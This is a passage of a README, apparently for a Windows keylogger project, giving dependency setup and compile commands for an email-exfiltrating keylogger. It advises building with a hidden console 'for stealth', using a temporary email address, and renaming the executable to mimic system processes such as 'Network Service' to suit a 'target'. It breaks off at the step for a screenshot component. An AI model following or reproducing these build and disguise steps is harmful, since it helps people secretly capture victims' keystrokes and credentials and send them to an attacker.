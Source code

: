 - libcurl development libraries
  - Using vcpkg:
    ```bash
    # Clone vcpkg
    git clone https://github.com/Microsoft/vcpkg.git
    cd vcpkg
    
    # Bootstrap vcpkg
    .\bootstrap-vcpkg.bat
    
    # Add to PATH
    setx PATH "%PATH%;%CD%"
    '''
    # Install libcurl:
    ```bash
    # Using vcpkg
    vcpkg install curl:x64-windows
    ```

- Windows SDK (included with Visual Studio, or install separately):
  ```bash
  # Using winget
  winget install Microsoft.WindowsSDK
  ```

### Building from Source
1. Create a temporary mail before following 2. or 3.  ,scroll down to section "Create Temporary Email Using temp-mail.org" 

2. Compile basic_implementation_email.cpp using MinGW-w64:
   ```bash
   # Using MinGW-w64 (recommended for stealth)
   g++ basic_implementation_email.cpp -o iDiags -lcurl -lwinmm -mwindows
   ```
   Note: The name of the compiled executable is 'iDiags.exe' ,you need to change the name as per your target,
   safe bet would be to name it something like 'win64','win32','system','Network Service',etc

   ```bash
   # Alternative without hiding console (for debugging)
   g++ basic_implementation_email.cpp -o keylogger -lcurl -lwinmm
   ```

   Note: The `-mwindows` flag prevents the console window from appearing when running the program, making it more stealthy. Remove this flag during development/debugging to see console output.

3. Compile window_screenshot_implementation.cpp using MinGW-w64:

